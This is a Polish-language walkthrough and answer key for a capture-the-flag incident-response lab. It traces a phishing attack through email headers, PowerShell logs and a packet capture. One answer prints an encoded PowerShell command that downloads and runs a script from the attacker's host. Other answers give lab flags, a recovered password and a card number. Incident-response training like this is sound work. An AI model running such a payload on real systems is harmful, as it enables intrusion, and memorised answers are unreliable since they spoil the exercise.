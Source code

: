 BOXTITLE: Boogeyman 1
TASK1
W boxie tym naszym zadaniem jest przeanalizowanie TTPs'a wykonanego na maszynie.
Całe zadanie zostało podzielone na 3 etapy
Etap1 - Analiza maila phishingowego
Etap2 - Analiza logów powershella
Etap3 - Analiza logów pakietów internetowych

Q: Let's hunt that boogeyman!
A: No answer needed



TASK2
Q: What is the email address used to send the phishing email?

W: Przechodzimy do folderu z artefaktami, znajdujemy plik dump.eml który otwieramy w aplikacji thunderbird mail. Informacje o nadawcy maila możemy uzyskać bez głębszego analizowania maila, wartość dla pola From:.

A: agriffin@bpakcaging.xyz



Q: What is the email address of the victim?

W: Informacje o odbiorcy maila możemy zauważyć bez glębszego analizowania maila, wartość dla pola To:.

A: julianne.westcott@hotmail.com



Q: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

w: Przechodzimy do More>Show Source, wyszukujemy pole DKIM-Signature, nazwa serwisu znajduje sie w polu p=.

A: elasticemail


Q: What is the name of the file inside the encrypted attachment?

W: Pobieramy załącznik i rozpakowywujemy go na spreparowanym sandboxie przy użyciu hasła zawartego w mailu.

A: Invoice_20230103.lnk


Q: What is the password of the encrypted attachment?

W: Hasło znajdujemy bezpośrednio w mailu.

A: Invoice2023!



Q: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

W: Uruchamiamy cmd, przechodzimy na Desktop, wykonujemy komende lnkparse nazwa_pliku. Informacja o komendzie możemy dostrzec w polu Command line arguments po fladze -enc.

A: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





TASK3

Q: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

W: Uruchamiamy cmd w folderze zawierajacym artefakt jsona, wykonujemy komende:
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
W polu ScriptBlockText $s= możemy zauważyć pierwsza domene ktora posłużyła do ataku, następną domene możemy odczytać poniżej.

A: cdn.bpakcaging.xyz,files.bpakcaging.xyz



Q: What is the name of the enumeration tool downloaded by the attacker?

W: Nazwe pobranego narzędzia możemy dostrzec po uruchomieniu tej samej komendy, wyszukujemy w treści wartość .exe

A: seatbelt



Q: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

W: W tym samym miejscu możemy odszukac wartosc zależne od sq3.exe, w tym sqlite.

A: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite



Q: What is the software that uses the file in Q3?

W: W tym samym miejscu możemy zauważyć wiele wspomnień dla MicrosoftStickyNotes, również w tym gdzie plik wykonywalny został zapisany.

A: Microsoft Sticky Notes



Q: What is the name of the exfiltrated file?

W: W tym samym miejscu, szukamy gdzie dane mogłybyć zapisane, jest to jeden z końcowych etapów ataków więc informacji o tym szukamy na końcu logów.

A: protected_data.kdbx



Q: What type of file uses the .kdbx file extension?

W: Informacje o tym możemy znaleść w zewnętrznych źródłach.

A: keepass



Q: What is the encoding used during the exfiltration attempt of the sensitive file?

W: Informacje o tym możemy znaleść w miejscu gdzie dane są wysyłane, np w tym samym ciagu co metoda POST, odnajdujemy informacje o tym na poczatku, w polu ScriptBlockText $split = 

A: hex



Q: What is the tool used for exfiltration?

W: W tym samym miejscu co kodowanie możemy znaleść informacje o narzędziach użytych do wysłania danych.

A: nslookup



TASK4

Q: What software is used by the attacker to host its presumed file/payload server?

W: Uruchamiamy capture.pcapng przy użyciu Wiresharka, wiemy nazwe pliku oraz to ze zawartosc zostala przeslana poprzez protokół http. Filtrujemy ruch poprzez filtr:
http contains "files.bpakcaging.xyz", dostrzegamy 5 pakietów. Przechodzimy na początek, prawy na pakiet, Follow > TCP Stream. Podążanie za potokiem pakietu z początku ataku pozwala na dokładną analizę komunikacji podczas ataku. W wartosc przesyłanych przez serwer w polu Server: możemy dostrzec oprogramowanie serwera

A: python



Q: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez POST'a

A: POST



Q: What is the protocol used during the exfiltration activity?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez nslookup czyli protokół dns'a

A: dns



Q: What is the password of the exfiltrated file?

W: W poprzednich zadaniach mogliśmy dostrzec plik sq3.exe który posłużył do zebrania danych z urządzenia.
Otwieramy Wiresharka oraz nasz plik pcapng, wyszukujemy pakietów które zawierają ten plik czyli filtr:
http contains "sq3.exe". Dostrzegamy 4 pakiety. Śledzimy Potok TCP pierwszego, możemy zauważyć, że numerem tego potoku jest 749, sprawdzamy co stało się następnie czyli dla potoku o numerze 750.
Dostrzegamy zakodowany ciąg liczbowy. Wprowadzamy ten ciąg do CyberChefa z wyszukiwaniem jakim algorytmem został zakodowany czyli operacja "Magic". Otrzymujemy entropie 5.33 dla kodowania From_Decimal('Space',false). Stosujemy tą operację zamiast Magic, uzyskujemy tym samym jawne dane, w tym hasło które posłużyło do zakodowania bazy danych.

A: %p9^3!lL^Mz47E2GaT^y



Q: What is the credit card number stored inside the exfiltrated file?

W: W celu uzyskania informacji o karcie, musimy odczytać tą zawartość z bazy danych.
Możemy zastosować następującą komende w cmd:
tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'
która odczyta plik pcap, nałoży filtr dns a następnie odpowiednio podzieli dane tabel. Tak uzyskany ciąg tekstowy musimy odkodować z hexowego np w cyberchefie. Zapisując wyniki z cyberchefa w formie nazwapliku.kdbx pozwala na uzyskanie dostepu do bazy danych poprzez program KeePassX wraz z podaniem hasła które uzyskaliśmy w poprzednim pytaniu.

A: 4024007128269551